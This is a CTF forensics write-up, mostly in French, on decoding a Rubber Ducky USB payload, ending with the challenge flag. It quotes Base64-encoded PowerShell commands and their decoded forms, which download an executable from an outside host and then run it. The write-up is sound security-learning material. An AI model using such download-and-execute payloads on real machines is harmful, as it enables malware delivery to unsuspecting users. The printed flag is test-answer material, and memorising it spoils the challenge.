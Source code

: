 ### Strange USB
**Category:** Forensics - **Difficulty:** Easy    
**Description:**  
Where the flag can be hidden? The PDF file is a bit strange but the flag is apparently present.  
My **French** colleague found strange equipment on his computer. What could it be?

**Solution:**  
Pour résoudre ce challenge, il faut prendre le titre en compte ainsi que le [fichier .bin](./pro.bin).  
En cherchant sur internet les termes *USB*, *.bin* et *strange* on tombe plus ou moins rapidement sur des articles de Rubber Ducky.  
En allant un peu plus loin, on voit qu'effectivement les fichiers mis sur les Rubber Ducky sont des fichier .bin.  
Il faut donc utiliser des décodeur comme celui-ci : [DuckToolKit](https://ducktoolkit.com/decode#) pour voir le contenu en clair du fichier.  
Si nous uploadons simplement le fichier sans changer aucun paramètres, le code ne voudra pas dire grand chose...  
En effet, il faut changer le langage en français (grâce à l'indice dans la description). Avec ça, le code est plus compréhensible :  
![image](https://user-images.githubusercontent.com/91023285/187074877-4ba59336-50cc-46c4-a52f-e35f790b44e4.png)  

On voit déjà une URL vers une image : [https://developwebpro.fr/DVC/files/168793745812685/step.png](https://developwebpro.fr/DVC/files/168793745812685/step.png)  
Ici ça n'est pas très utile de voir cela...  

Cependant, à la fin du fichier, il y a des commandes PowerShell. Encodées en *Base64* il faut les décrypter pour voir la commande exacte :  
- `aWV4IChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZEZpbGUoJ2h0dHBzOi8vZGV2ZWxvcHdlYnByby5mci9EVkMvZmlsZXMvNDU4NzMxMjY1ODk0MjY4L21haW4uZXhlJywnbWFpbi5leGUnKTs` : `iex (New-Object System.Net.WebClient).DownloadFile('https://developwebpro.fr/DVC/files/458731265894268/main.exe','main.exe');`
- `aWV4IChOZXctT2JqZWN0IC1jb20gc2hlbGwuYXBwbGljYXRpb24pLnNoZWxsZXhlY3V0ZSgnbWFpbi5leGUnKTs` : `iex (New-Object -com shell.application).shellexecute('main.exe');`  

La première commande va télécharger un programme .exe sur une URL précise puis dans un deuxième temps, le fichier est exécuté.  
Essayons de télécharger ce fichier .exe pour voir.  

⚠️ Soit on peut l'exécuter directement sur notre machine (à nos risques et périls, bien qu'ici il s'agisse d'un CTF) ou alors faire un `strings` sur le fichier :  

En l'éxécutant :  
![image](https://user-images.githubusercontent.com/91023285/187075194-250a0b33-ecdf-4923-9020-c87a78d0addb.png)  

En faisant un `strings` dessus :  
![image](https://user-images.githubusercontent.com/91023285/187075477-484e6590-b894-4753-8b33-1b91d61770b2.png)  

<details>
  <summary>:triangular_flag_on_post: FLAG</summary>

  ```
  DVC{u5B_4R3_D4n93r0U5}
  ```
</details>

